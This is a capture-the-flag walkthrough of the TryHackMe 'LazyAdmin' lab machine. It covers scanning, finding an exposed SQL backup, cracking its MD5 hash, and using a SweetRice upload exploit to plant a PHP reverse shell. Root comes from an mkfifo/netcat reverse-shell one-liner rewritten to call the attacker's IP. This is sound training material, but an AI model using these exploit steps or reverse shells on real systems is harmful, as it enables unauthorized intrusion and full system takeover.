

# LazyAdmin

- [Room information](#room-information)
- [Solution](#solution)
- [References](#references)

## Room information
```
Difficulty: Easy
OS: Linux
Subscription type: Free
Description: Easy linux machine to practice your skills
```
Room link: [https://tryhackme.com/r/room/lazyadmin](https://tryhackme.com/r/room/lazyadmin)

## Solution

### Check for services with nmap

We start by scanning the machine with `nmap`
```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/CTFs/Easy/LazyAdmin]
└─$ nmap -v -sV -sC 10.10.167.58                       
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-26 17:52 CEST
NSE: Loaded 156 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 17:52
Completed NSE at 17:52, 0.00s elapsed
Initiating NSE at 17:52
Completed NSE at 17:52, 0.00s elapsed
Initiating NSE at 17:52
Completed NSE at 17:52, 0.00s elapsed
Initiating Ping Scan at 17:52
Scanning 10.10.167.58 [2 ports]
Completed Ping Scan at 17:52, 0.04s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 17:52
Completed Parallel DNS resolution of 1 host. at 17:52, 0.00s elapsed
Initiating Connect Scan at 17:52
Scanning 10.10.167.58 [1000 ports]
Discovered open port 80/tcp on 10.10.167.58
Discovered open port 22/tcp on 10.10.167.58
Completed Connect Scan at 17:52, 1.63s elapsed (1000 total ports)
Initiating Service scan at 17:52
Scanning 2 services on 10.10.167.58
Completed Service scan at 17:52, 6.33s elapsed (2 services on 1 host)
NSE: Script scanning 10.10.167.58.
Initiating NSE at 17:52
Completed NSE at 17:52, 2.52s elapsed
Initiating NSE at 17:52
Completed NSE at 17:52, 0.20s elapsed
Initiating NSE at 17:52
Completed NSE at 17:52, 0.00s elapsed
Nmap scan report for 10.10.167.58
Host is up (0.053s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 49:7c:f7:41:10:43:73:da:2c:e6:38:95:86:f8:e0:f0 (RSA)
|   256 2f:d7:c4:4c:e8:1b:5a:90:44:df:c0:63:8c:72:ae:55 (ECDSA)
|_  256 61:84:62:27:c6:c3:29:17:dd:27:45:9e:29:cb:90:5e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

NSE: Script Post-scanning.
Initiating NSE at 17:52
Completed NSE at 17:52, 0.00s elapsed
Initiating NSE at 17:52
Completed NSE at 17:52, 0.00s elapsed
Initiating NSE at 17:52
Completed NSE at 17:52, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.84 seconds
```
We have two services running:
- OpenSSH 7.2p2 on port 22
- Apache httpd 2.4.18 on port 80

Manually browsing to port 80 shows a `Apache2 Ubuntu Default Page`.

### Check for files/directories with gobuster

Next, we check for files/directories on the web service with `gobuster`
```bash
 ┌──(kali㉿kali)-[/mnt/…/TryHackMe/CTFs/Easy/LazyAdmin]
└─$ gobuster dir -w /usr/share/wordlists/dirb/common.txt -x html,php,txt -u http://10.10.167.58        
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.167.58
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,php,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 277]
/.php                 (Status: 403) [Size: 277]
/.hta                 (Status: 403) [Size: 277]
/.hta.html            (Status: 403) [Size: 277]
/.hta.php             (Status: 403) [Size: 277]
/.htaccess            (Status: 403) [Size: 277]
/.htaccess.html       (Status: 403) [Size: 277]
/.hta.txt             (Status: 403) [Size: 277]
/.htaccess.php        (Status: 403) [Size: 277]
/.htaccess.txt        (Status: 403) [Size: 277]
/.htpasswd.html       (Status: 403) [Size: 277]
/.htpasswd            (Status: 403) [Size: 277]
/.htpasswd.txt        (Status: 403) [Size: 277]
/.htpasswd.php        (Status: 403) [Size: 277]
/content              (Status: 301) [Size: 314] [--> http://10.10.167.58/content/]
/index.html           (Status: 200) [Size: 11321]
/index.html           (Status: 200) [Size: 11321]
/server-status        (Status: 403) [Size: 277]
Progress: 18456 / 18460 (99.98%)
===============================================================
Finished
===============================================================
```

Browsing to the `/content` directory shows an installation of `SweetRice`



### Search for exploits

Let's see if there are any exploits available
```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/CTFs/Easy/LazyAdmin]
└─$ searchsploit sweetrice        
-------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                          |  Path
-------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
SweetRice 0.5.3 - Remote File Inclusion                                                                                                                 | php/webapps/10246.txt
SweetRice 0.6.7 - Multiple Vulnerabilities                                                                                                              | php/webapps/15413.txt
SweetRice 1.5.1 - Arbitrary File Download                                                                                                               | php/webapps/40698.py
SweetRice 1.5.1 - Arbitrary File Upload                                                                                                                 | php/webapps/40716.py
SweetRice 1.5.1 - Backup Disclosure                                                                                                                     | php/webapps/40718.txt
SweetRice 1.5.1 - Cross-Site Request Forgery                                                                                                            | php/webapps/40692.html
SweetRice 1.5.1 - Cross-Site Request Forgery / PHP Code Execution                                                                                       | php/webapps/40700.html
SweetRice < 0.6.4 - 'FCKeditor' Arbitrary File Upload                                                                                                   | php/webapps/14184.txt
-------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

┌──(kali㉿kali)-[/mnt/…/TryHackMe/CTFs/Easy/LazyAdmin]
└─$ searchsploit -m 40716 
  Exploit: SweetRice 1.5.1 - Arbitrary File Upload
      URL: https://www.exploit-db.com/exploits/40716
     Path: /usr/share/exploitdb/exploits/php/webapps/40716.py
    Codes: N/A
 Verified: True
File Type: Python script, ASCII text executable
Copied to: /mnt/hgfs/Wargames/TryHackMe/CTFs/Easy/LazyAdmin/40716.py
```
The Arbitrary File Upload exploit for the highest version listed seems most interesting.

We check it out further
```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/CTFs/Easy/LazyAdmin]
└─$ head -n 50 40716.py
#/usr/bin/python
#-*- Coding: utf-8 -*-
# Exploit Title: SweetRice 1.5.1 - Unrestricted File Upload
# Exploit Author: Ashiyane Digital Security Team
# Date: 03-11-2016
# Vendor: http://www.basic-cms.org/
# Software Link: http://www.basic-cms.org/attachment/sweetrice-1.5.1.zip
# Version: 1.5.1
# Platform: WebApp - PHP - Mysql

import requests
import os
from requests import session

if os.name == 'nt':
    os.system('cls')
else:
    os.system('clear')
    pass
banner = '''
+-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-+
|  _________                      __ __________.__                  |
| /   _____/_  _  __ ____   _____/  |\______   \__| ____  ____      |
| \_____  \\ \/ \/ // __ \_/ __ \   __\       _/  |/ ___\/ __ \     |
| /        \\     /\  ___/\  ___/|  | |    |   \  \  \__\  ___/     |
|/_______  / \/\_/  \___  >\___  >__| |____|_  /__|\___  >___  >    |
|        \/             \/     \/            \/        \/    \/     |
|    > SweetRice 1.5.1 Unrestricted File Upload                     |
|    > Script Cod3r : Ehsan Hosseini                                |
+-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-+
'''

print(banner)


# Get Host & User & Pass & filename
host = input("Enter The Target URL(Example : localhost.com) : ")
username = input("Enter Username : ")
password = input("Enter Password : ")
filename = input("Enter FileName (Example:.htaccess,shell.php5,index.html) : ")
file = {'upload[]': open(filename, 'rb')}

payload = {
    'user':username,
    'passwd':password,
    'rememberMe':''
}
```
Hhm, it requires authentication with a username and password.

### Further content discovery with gobuster

Now we continue our discovery in the `/content` directory
```bash          
┌──(kali㉿kali)-[/mnt/…/TryHackMe/CTFs/Easy/LazyAdmin]
└─$ gobuster dir -w /usr/share/wordlists/dirb/common.txt -x html,php,txt -u http://10.10.167.58/content
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.167.58/content
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,php,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 277]
/.html                (Status: 403) [Size: 277]
/.hta                 (Status: 403) [Size: 277]
/.hta.html            (Status: 403) [Size: 277]
/.hta.txt             (Status: 403) [Size: 277]
/.hta.php             (Status: 403) [Size: 277]
/.htaccess.php        (Status: 403) [Size: 277]
/.htaccess.txt        (Status: 403) [Size: 277]
/.htpasswd            (Status: 403) [Size: 277]
/.htaccess            (Status: 403) [Size: 277]
/.htpasswd.html       (Status: 403) [Size: 277]
/.htaccess.html       (Status: 403) [Size: 277]
/.htpasswd.php        (Status: 403) [Size: 277]
/.htpasswd.txt        (Status: 403) [Size: 277]
/_themes              (Status: 301) [Size: 322] [--> http://10.10.167.58/content/_themes/]
/as                   (Status: 301) [Size: 317] [--> http://10.10.167.58/content/as/]
/attachment           (Status: 301) [Size: 325] [--> http://10.10.167.58/content/attachment/]
/changelog.txt        (Status: 200) [Size: 18013]
/images               (Status: 301) [Size: 321] [--> http://10.10.167.58/content/images/]
/inc                  (Status: 301) [Size: 318] [--> http://10.10.167.58/content/inc/]
/index.php            (Status: 200) [Size: 2198]
/index.php            (Status: 200) [Size: 2198]
/js                   (Status: 301) [Size: 317] [--> http://10.10.167.58/content/js/]
/license.txt          (Status: 200) [Size: 15410]
Progress: 18456 / 18460 (99.98%)
===============================================================
Finished
===============================================================
```

In the `changelog.txt` we can see that the version is `1.5.1` and that PHP and MySQL are recommended.
```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/CTFs/Easy/LazyAdmin]
└─$ curl -L -s http://10.10.167.58/content/changelog.txt | head -n 50 
#############################################
SweetRice - Simple Website Management System
Version 1.5.0
Author:Hiler Liu steelcal@gmail.com
Home page:http://www.basic-cms.org/
#############################################
New web - new SweetRice for both PC & mobile website creator,easy way to follow the new web world.


Download : http://www.basic-cms.org/download.html

System Recommendations
PHP version 4.3 or higher.
MySQL version 4.0 or higher or PostgreSQL or SQLite

Installation: just 1-minute install

   1. Unzip the package in an empty directory.
   2. Upload everything.
   3. directory inc,attachment,and root must be writeable.
   4. Open http://yourdomain/[rootdir]/ in your browser,accept the GPL license and jump to install form,enter your website ,database and administrator information .
   5. The install script should then send you to the welcome page. 
   6. Login to SweetRice dashboard.

Feedback and comment 
If you have any suggestions, ideas, comments, or if you found a bug,please mail to support@basic-cms.org or post comment at basic-cms.org.

Copyright
SweetRice is released under the GPL V2.

Help SweetRice
1),If you want to help SweetRice,you may make a donation to me via paypal,my paypal account is steelcal@gmail.com or Bitcoin 1FmPQZ6GGoKXt3fze73g85M7zWTo1xVGFM
OR
2),If you can speak in any language include English, French, German, Japanese, Korean, Spanish,Russian,Polish etc,you may help me to translate SweetRice language file,example file at as/lang/,there are default three kinds of language:English,Simplified Chinese,Traditional Chinese
Thank you.

SweetRice change log:
======================================
Change log V1.5.1 12/20/2015
======================================
core update
        tinyMCE upgrade to 4.3.x
        support function_custom.php for custom anything
        change default mysql connect function to mysqli
        update image upload 
======================================
Change log V1.5.0 12/06/2015
core update
        add BASE_DIR for cookie - access from meta
        custom field supports more option
```

### Get a username and hash

Browsing to the `/content/inc` directory we can see a `mysql_backup` directory.  
Checking out that directory we see a `mysql_bakup_20191129023059-1.5.1.sql` file  
with a username and password
```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/CTFs/Easy/LazyAdmin]
└─$ curl -s http://10.10.167.58/content/inc/mysql_backup/mysql_bakup_20191129023059-1.5.1.sql | grep -i pass
  14 => 'INSERT INTO `%--%_options` VALUES(\'1\',\'global_setting\',\'a:17:{s:4:\\"name\\";s:25:\\"Lazy Admin&#039;s Website\\";s:6:\\"author\\";s:10:\\"Lazy Admin\\";s:5:\\"title\\";s:0:\\"\\";s:8:\\"keywords\\";s:8:\\"Keywords\\";s:11:\\"description\\";s:11:\\"Description\\";s:5:\\"admin\\";s:7:\\"manager\\";s:6:\\"passwd\\";s:32:\\"42f749ade7f9e195bf475f37a44cafcb\\";s:5:\\"close\\";i:1;s:9:\\"close_tip\\";s:454:\\"<p>Welcome to SweetRice - Thank your for install SweetRice as your website management system.</p><h1>This site is building now , please come late.</h1><p>If you are the webmaster,please go to Dashboard -> General -> Website setting </p><p>and uncheck the checkbox \\"Site close\\" to open your website.</p><p>More help at <a href=\\"http://www.basic-cms.org/docs/5-things-need-to-be-done-when-SweetRice-installed/\\">Tip for Basic CMS SweetRice installed</a></p>\\";s:5:\\"cache\\";i:0;s:13:\\"cache_expired\\";i:0;s:10:\\"user_track\\";i:0;s:11:\\"url_rewrite\\";i:0;s:4:\\"logo\\";s:0:\\"\\";s:5:\\"theme\\";s:0:\\"\\";s:4:\\"lang\\";s:9:\\"en-us.php\\";s:11:\\"admin_email\\";N;}\',\'1575023409\');',
```

Username: `manager`
Hash: `42f749ade7f9e195bf475f37a44cafcb`

We can try to crack the hash with `hashcat` and the rockyou wordlist.  
From the hash length we can assume it's a MD5-hash
```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/CTFs/Easy/LazyAdmin]
└─$ hashcat -a 0 -m 0 '42f749ade7f9e195bf475f37a44cafcb' /usr/share/wordlists/rockyou.txt 
hashcat (v6.2.6) starting

<---snip--->

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

42f749ade7f9e195bf475f37a44cafcb:Password123              
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 0 (MD5)
Hash.Target......: 42f749ade7f9e195bf475f37a44cafcb
Time.Started.....: Thu Sep 26 18:30:20 2024 (1 sec)
Time.Estimated...: Thu Sep 26 18:30:21 2024 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   279.7 kH/s (0.19ms) @ Accel:256 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 34816/14344385 (0.24%)
Rejected.........: 0/34816 (0.00%)
Restore.Point....: 32768/14344385 (0.23%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: dyesebel -> anaxor
Hardware.Mon.#1..: Util: 19%

Started: Thu Sep 26 18:30:12 2024
Stopped: Thu Sep 26 18:30:23 2024
```
And the password is `Password123`.

### Login on the web portal

We can test our username and cracked password on the SweetRice login portal  
`http://10.10.167.58/content/as/`. And it works!

Next, we can create a reverse shell and upload it with the exploit. 

### Upload a reverse shell

We will use a basic [PHP reverse shell from pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell).  
Save it as `php-reverse-shell.php5`. The file need to have a `.php5` extension (`.php` won't work).

We launch the exploit
```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/CTFs/Easy/LazyAdmin]
└─$ python 40716.py
```
And input the data
```
+-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-+
|  _________                      __ __________.__                  |
| /   _____/_  _  __ ____   _____/  |\______   \__| ____  ____      |
| \_____  \ \/ \/ // __ \_/ __ \   __\       _/  |/ ___\/ __ \     |
| /        \     /\  ___/\  ___/|  | |    |   \  \  \__\  ___/     |
|/_______  / \/\_/  \___  >\___  >__| |____|_  /__|\___  >___  >    |
|        \/             \/     \/            \/        \/    \/     |
|    > SweetRice 1.5.1 Unrestricted File Upload                     |
|    > Script Cod3r : Ehsan Hosseini                                |
+-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-+

Enter The Target URL(Example : localhost.com) : 10.10.167.58/content                                    
Enter Username : manager
Enter Password : Password123
Enter FileName (Example:.htaccess,shell.php5,index.html) : php-reverse-shell.php5
[+] Sending User&Pass...
[+] Login Succssfully...
[+] File Uploaded...
[+] URL : http://10.10.167.58/content/attachment/php-reverse-shell.php
```

### Get a reverse shell

Now we start a netcat listener
```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/CTFs/Easy/LazyAdmin]
└─$ nc -lvnp 12345              
listening on [any] 12345 ...

```
And trigger the reverse shell with `curl`
```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/CTFs/Easy/LazyAdmin]
└─$ curl http://10.10.167.58/content/attachment/php-reverse-shell.php5
```

Back at the netcat listener we now have a shell
```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/CTFs/Easy/LazyAdmin]
└─$ nc -lvnp 12345 
listening on [any] 12345 ...
connect to [10.14.61.233] from (UNKNOWN) [10.10.167.58] 47144
Linux THM-Chal 4.15.0-70-generic #79~16.04.1-Ubuntu SMP Tue Nov 12 11:54:29 UTC 2019 i686 i686 i686 GNU/Linux
 20:09:57 up  1:21,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ pwd
/
$ 
```

### Get the user flag

We fix our shell and search for the user flag with `find`
```bash
$ python -c 'import pty;pty.spawn("/bin/bash")'
www-data@THM-Chal:/$ find /home -type f -name [Uu]ser* 2>/dev/null                           
find /home -type f -name [Uu]ser* 2>/dev/null
/home/itguy/user.txt
www-data@THM-Chal:/$ cat /home/itguy/user.txt
cat /home/itguy/user.txt
THM{6<REDACTED>7}
www-data@THM-Chal:/$ 
```

### Enumeration

We now start enumerating for ways to escalate our privileges.  
First we check if we can run any commands as root via `sudo`
```bash
www-data@THM-Chal:/$ sudo -l
sudo -l
Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
www-data@THM-Chal:/$ 
```
We can execute `backup.pl` with perl.

Let's examine the backup file
```bash
www-data@THM-Chal:/$ cd /home/itguy     
cd /home/itguy
www-data@THM-Chal:/home/itguy$ ls -l
ls -l
total 56
drwxr-xr-x 2 itguy itguy 4096 Nov 29  2019 Desktop
drwxr-xr-x 2 itguy itguy 4096 Nov 29  2019 Documents
drwxr-xr-x 2 itguy itguy 4096 Nov 29  2019 Downloads
drwxr-xr-x 2 itguy itguy 4096 Nov 29  2019 Music
drwxr-xr-x 2 itguy itguy 4096 Nov 29  2019 Pictures
drwxr-xr-x 2 itguy itguy 4096 Nov 29  2019 Public
drwxr-xr-x 2 itguy itguy 4096 Nov 29  2019 Templates
drwxr-xr-x 2 itguy itguy 4096 Nov 29  2019 Videos
-rw-r--r-x 1 root  root    47 Nov 29  2019 backup.pl
-rw-r--r-- 1 itguy itguy 8980 Nov 29  2019 examples.desktop
-rw-rw-r-- 1 itguy itguy   16 Nov 29  2019 mysql_login.txt
-rw-rw-r-- 1 itguy itguy   38 Nov 29  2019 user.txt
www-data@THM-Chal:/home/itguy$ cat backup.pl
cat backup.pl
#!/usr/bin/perl

system("sh", "/etc/copy.sh");
```
It will launch another file `/etc/copy.sh`.
```bash
www-data@THM-Chal:/home/itguy$ ls -l /etc/copy.sh
ls -l /etc/copy.sh
-rw-r--rwx 1 root root 81 Nov 29  2019 /etc/copy.sh
www-data@THM-Chal:/home/itguy$ cat /etc/copy.sh
cat /etc/copy.sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f
www-data@THM-Chal:/home/itguy$ 
```
How nice, the file is world writable and contains a fifo reverse shell.

### Privilege escalation

We change the IP-adress and port in the file
```bash
www-data@THM-Chal:/home/itguy$ echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.14.61.233 23456 >/tmp/f' > /etc/copy.sh
< -i 2>&1|nc 10.14.61.233 23456 >/tmp/f' > /etc/copy.sh                      
www-data@THM-Chal:/home/itguy$ cat /etc/copy.sh
cat /etc/copy.sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.14.61.233 23456 >/tmp/f
www-data@THM-Chal:/home/itguy$ 
```
And start another netcat listener
```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/CTFs/Easy/LazyAdmin]
└─$ nc -lvnp 23456
listening on [any] 23456 ...

```
Then we trigger the reverse shell
```bash
www-data@THM-Chal:/home/itguy$ sudo /usr/bin/perl /home/itguy/backup.pl
sudo /usr/bin/perl /home/itguy/backup.pl
rm: cannot remove '/tmp/f': No such file or directory
```

Back at netcat listener #2 
```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/CTFs/Easy/LazyAdmin]
└─$ nc -lvnp 23456
listening on [any] 23456 ...
connect to [10.14.61.233] from (UNKNOWN) [10.10.167.58] 43476
# id
uid=0(root) gid=0(root) groups=0(root)
# 
```
We are now root!

### Get the root flag

Finally, we get the root flag
```bash
# cd /root
# ls
root.txt
# cat root.txt
THM{6<REDACTED>f}
```

For additional information, please see the references below.

## References

- [Apache HTTP Server - Wikipedia](https://en.wikipedia.org/wiki/Apache_HTTP_Server)
- [curl - Linux manual page](https://man7.org/linux/man-pages/man1/curl.1.html)
- [find - Linux manual page](https://man7.org/linux/man-pages/man1/find.1.html)
- [Gobuster - Github](https://github.com/OJ/gobuster/)
- [Gobuster - Kali Tools](https://www.kali.org/tools/gobuster/)
- [Hashcat - Homepage](https://hashcat.net/hashcat/)
- [Hashcat - Kali Tools](https://www.kali.org/tools/hashcat/)
- [nc - Linux manual page](https://linux.die.net/man/1/nc)
- [netcat - Wikipedia](https://en.wikipedia.org/wiki/Netcat)
- [nmap - Linux manual page](https://linux.die.net/man/1/nmap)
- [MySQL - Wikipedia](https://en.wikipedia.org/wiki/MySQL)
- [OpenSSH - Wikipedia](https://en.wikipedia.org/wiki/OpenSSH)
- [sudo - Linux manual page](https://man7.org/linux/man-pages/man8/sudo.8.html)
- [sudo - Wikipedia](https://en.wikipedia.org/wiki/Sudo)
